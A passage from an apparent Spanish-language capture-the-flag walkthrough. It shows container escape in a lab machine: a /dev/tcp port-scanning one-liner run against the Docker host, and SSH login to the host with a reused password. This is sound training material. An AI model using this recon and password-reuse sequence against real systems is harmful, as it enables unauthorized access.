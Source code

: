La máquina principal tiene la primera IP del segmento de **Docker**, veamos si lo podemos alcanzar:
```bash
root@3a453ab39d3d:/home/augustus# ping -c 4 172.19.0.1
PING 172.19.0.1 (172.19.0.1) 56(84) bytes of data.
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.068 ms
64 bytes from 172.19.0.1: icmp_seq=2 ttl=64 time=0.088 ms
64 bytes from 172.19.0.1: icmp_seq=3 ttl=64 time=0.089 ms
64 bytes from 172.19.0.1: icmp_seq=4 ttl=64 time=0.100 ms

--- 172.19.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3049ms
rtt min/avg/max/mdev = 0.068/0.086/0.100/0.013 ms
```
Sí podemos.

Curiosamente, en el **directorio home** se encuentra el directorio del **usuario augustus** que ya vimos, pero dicho usuario no existe en el `/etc/passwd`.

Es posible que estemos dentro de una montura y podemos comprobarlo con **mount** y **grep**:
```bash
root@3a453ab39d3d:/home/augustus# mount | grep home
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```
Con esto comprobamos que `/home/augustus` es una montura.

Otra cosa que podemos hacer, es escanear los puertos para saber si hay uno del que nos podamos aprovechar.

Ya vimos que está abierto el puerto 80, pero hay que ver que otro está abierto.

Investigando por ahí, encontré un **script de Bash** que puede escanear puertos:
* <a href="https://catonmat.net/tcp-port-scanner-in-bash" target="_blank">TCP Port Scanner in Bash</a>

Lo único que vamos a modificar, es la parte de los puertos cerrados, ya que no nos interesa verlos en el resultado.

Ejecútalo como un oneliner:
```bash
root@3a453ab39d3d:/home/augustus# for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "Port: $port open"; done 2>/dev/null
Port: 22 open
Port: 80 open
```
Son 2 puertos abiertos y ahí está el puerto 22 que es del **servicio SSH**.

Como ya sabemos que existe el **usuario augustus** y estamos dentro de una montura de este usuario, quiere decir que podemos probar si este usuario es válido.

Y como no tenemos una contraseña para este usuario, probaremos la que ya tenemos con este usuario:
```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
```
Excelente, pudimos entrar.
